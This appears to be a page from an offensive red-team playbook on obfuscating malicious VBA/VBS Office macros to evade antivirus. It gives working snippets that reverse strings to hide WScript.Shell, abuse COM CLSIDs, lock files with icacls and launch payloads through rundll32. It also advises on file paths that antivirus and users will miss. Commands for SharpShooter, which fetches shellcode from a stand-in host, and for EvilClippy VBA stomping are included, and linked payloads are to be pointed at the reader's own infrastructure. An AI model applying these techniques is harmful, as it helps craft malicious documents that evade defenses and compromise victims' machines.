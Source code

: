 <!---------------------------------------------------------------------------------
Copyright: (c) BLS OPS LLC.
This program is free software: you can redistribute it and/or modify
it under the terms of the GNU General Public License as published by
the Free Software Foundation, version 3.
This program is distributed in the hope that it will be useful,
but WITHOUT ANY WARRANTY; without even the implied warranty of
MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE. See the
GNU General Public License for more details.
You should have received a copy of the GNU General Public License
along with this program. If not, see <https://www.gnu.org/licenses/>.
--------------------------------------------------------------------------------->
# VBA/VBS Obfuscation ([`Office` TTP](TTP/T1137_Office_Application_Startup/T1137.md), [`Command and Scripting Interpreter - Visual Basic` TTP](TTP/T1059_Command_and_Scripting_Interpreter/005_Visual_Basic/T1059.005.md))

### References

* <details><summary>References (Click to expand)</summary><p>
	* Johnlatwc Twitter: Example macro -<br />[https://twitter.com/johnlatwc/status/1236403291845611520](https://twitter.com/johnlatwc/status/1236403291845611520)
	* Didier Stevens Blog: PowerShell, Add-Type & csc.exe -<br />[https://blog.didierstevens.com/2019/10/15/powershell-add-type-csc-exe/](https://blog.didierstevens.com/2019/10/15/powershell-add-type-csc-exe/)
	* FireEye/Mandiant: Hunting COM Object -<br />[https://www.mandiant.com/resources/hunting-com-objects](https://www.mandiant.com/resources/hunting-com-objects)
	* Arno0x Github: -<br />([https://gist.github.com/Arno0x/89be7921e4467dd402b71ce6e29fcec1](https://gist.github.com/Arno0x/89be7921e4467dd402b71ce6e29fcec1))

### Example Scripts/Attacks

* <details><summary>Excel (Click to expand)</summary><p>
	* [Example 1](Testaments_and_Books/Redvelations/Windows/Payloads/VBA1.vba)
		* Features
			* Execute upon macro enabling
		* Lines to Modify
			* Modify backwards URL to point to your infrastructure
* <details><summary>Word (Click to expand)</summary><p>
	* [Example 1](Testaments_and_Books/Redvelations/Windows/Payloads/VBA2.vba)
		* Modify the infrastructure position to your infrastructure URL

### Process

1. Write/code the malicious activity ([VBA/VBS Execution Guide](Testaments_and_Books/Redvelations/Windows/002-3_VBA-VBS_Execution.md))
1. Implement Defense Evasion
	* <details><summary>Manual Code Edits (Click to expand)</summary><p>
		* Separate the commands and data to be executed across multiple variables
		* Include generic commented words between commands
			* `# Business happens here`
		* <details><summary>Obfuscate file contents by writing as a single line (Click to expand)</summary><p>

				rrea = StrReverse("<BACKWARDS_INFRASTRUCTURE_URL")
				a.WriteLine ("[Connection Manager]" & vbNewLine & "CMSFile=settings.txt" & vbNewLine & "ServiceName=WindowsUpdate" & vbNewLine & "TunnelFile=settings.txt" & vbNewLine & "[Settings]" & vbNewLine & "UpdateUrl=" & rrea)
		* <details><summary>Performing functions through an array (Click to expand)</summary><p>

				Dim dpdp(0 To 3) As String
			* Example: Define the target filepath through array functions

					Dim dpdp(0 To 3) As String
					dpdp(0) = StrReverse("\sresU\:C")
					dpdp(1) = user
					dpdp(2) = StrReverse("\foorP\tfosorciM\gnimaoR\ataDppA\")
					dpdp(3) = StrReverse("txt.sgnittes")
					sfile = Dir(dpdp(0) & dpdp(1) & dpdp(2) & "VPN*.TMP")
		* <details><summary>Abuse COM Object CLSIDs (Click to expand)</summary><p>
			1. Choose a process to call by COM object ([COM and CLSID Guide](Testaments_and_Books/Redvelations/Windows/002-6_Windows_COM_Objects.md)). Copy the corresponding CLSID.
				* `Outlook.exe`

						0006F03A-0000-0000-C000-000000000046
				* Secondary `Outlook` if first stops works

						0006F033-0000-0000-C000-000000000046
			1. Insert the CLSID as below:

					Set objShell = GetObject("new:{0006F03A-0000-0000-C000-000000000046}")
		* <details><summary>Define a file path that... (Click to expand)</summary><p>
			* AVs won't catch
				* General
				* Defender
					* 
				* Sophos
					* `C:\TMP\`
				* Test
			* The user will have permission to access
			* The user won't notice
				* Avoid
					* The User's Desktop
				* Recommended
		* <details><summary>Define filenames and file... (Click to expand)</summary><p>
			* In segments
				* `Dim p1 As String`
				* `Dim p2 As String`
				* `p1 = ".tpircSW"`
				* `p2 = "llehS"`
			* Written in reverse
				* `StrReverse()`
		* <details><summary>icacls (Click to expand)</summary><p>
			* Two Steps
				1. Set temporary file to be unremovable (temporarily)

						objShell.CreateObject(StrReverse(p1) + StrReverse(p2)).Run "icacls.exe " & dpdp(0) & dpdp(1) & dpdp(2) & " /deny %username%:(OI)(CI)(DE,DC)", 0, True
					* Unobfuscated command

							icacls.exe <filename> /deny %username%:(OI)CI(DE,DC), 0, True
				1. Set temporary file to be removable

						objShell.CreateObject(StrReverse(p1) + StrReverse(p2)).Run "icacls.exe " & dpdp(0) & dpdp(1) & dpdp(2) & " /remove:d %username%", 0, True
					* Unobfuscated command

							icacls.exe <filename> /remove:d %username%, 0, True
		* <details><summary>Command Execution (Click to expand)</summary><p>
			* LOLBINs
				* `rundll32.exe`

						objShell.CreateObject(StrReverse(p1) + StrReverse(p2)).Run "rundll32.exe " & dpdp(0) & dpdp(1) & dpdp(2) & sfile & ",Main", 0, True
		* <details><summary>Rewrite functions commonly triggering AV (Click to expand)</summary><p>
			* Sleep (see function mimicry above)

					Sub tent(n As Long)
						Dim t As Date
						t = Now
						Do
							DoEvents
						Loop Until Now >= DateAdd("s", n, t)
					End Sub
				* Necessary to allow behind-the-scenes execution to occur prior to the document function being applied
	1. <details><summary>Obfuscation with Tools (Click to expand)</summary><p>
		* <details><summary>MacroPack (Click to expand)</summary><p>
			* [https://github.com/sevagas/macro_pack](https://github.com/sevagas/macro_pack)
			* The tool is compatible with payloads generated by popular pentest tools (Metasploit, Empire, ...). It is also easy to combine with other tools as it is possible to read input from stdin and have a quiet output to another tool. This tool is written in Python3 and works on both Linux and Windows platform
			* Tool used to automatize obfuscation and generation of retro formats such as MS Office documents or VBS like format.
				* Handles various shortcuts formats
				* Everything can be done using a single line of code
				* Generation of majority of Office formats and VBS based formats
				* Payloads for advanced social engineering attacks (email, USB key, etc)
		* <details><summary>SharpShooter -<br />[https://github.com/mdsecactivebreach/SharpShooter](https://github.com/mdsecactivebreach/SharpShooter) (Click to expand)</summary><p>

				SharpShooter.py --payload vbs --delivery both --output foo --web http://www.foo.bar/shellcode.payload --dns bar.foo --shellcode --scfile ./csharpsc.txt --sandbox 1=contoso --smuggle --template mcafee --dotnetver 4
		* <details><summary>EvilClippy -<br />[https://github.com/outflanknl/EvilClippy](https://github.com/outflanknl/EvilClippy) (Click to expand)</summary><p>
			* EvilClippy is used to perform VBA stomping and a few other tricks to help hide macros in Excel and Word documents.
			* We've had challenges working on `.xls` and `.doc` files
			* Features
				* Hide VBA macros from the GUI editor
				* VBA stomping (P-code abuse)
				* Fool analyst tools
				* Serve VBA stomped templates via HTTP
				* Set/Remove VBA Project Locked/Unviewable Protection
				* Remove Metadata from the file
			* [Working Payload Link](Testaments_and_Books/Redvelations/Windows/Payloads/Evil_Clippy_Working_Payload.md)
			* Command

					./EvilClippy.exe -r -g -u -d <File>
				* Flags
					* `-d` - (optional) remove metadata
					* `-r` - (optional) randomize module names
					* `-g` - (optional) hide macros from the GUI
					* `-u` - (optional) make the VBA project unviewable
		* <details><summary>Office Purge -<br />[https://github.com/mandiant/OfficePurge](https://github.com/mandiant/OfficePurge) (Click to expand)</summary><p>
			* Removes P-code from module streams within Office documents. 
			* Supports VBA purging Microsoft Office Word (.doc), Excel (.xls), and Publisher (.pub) documents
		* <details><summary>DidierStevensSuite (Click to expand)</summary><p>
			* "tool to create a VBScript containing shellcode to execute"
			* [https://github.com/DidierStevens/DidierStevensSuite/blob/master/shellcode2vbscript.py](https://github.com/DidierStevens/DidierStevensSuite/blob/master/shellcode2vbscript.py)


([`Office - Add-ins` TTP](TTP/T1137_Office_Application_Startup/006_Add-ins/T1137.006.md))
([`Office - Office Template Macros` TTP](TTP/T1137_Office_Application_Startup/001_Office_Template_Macros/T1137.001.md))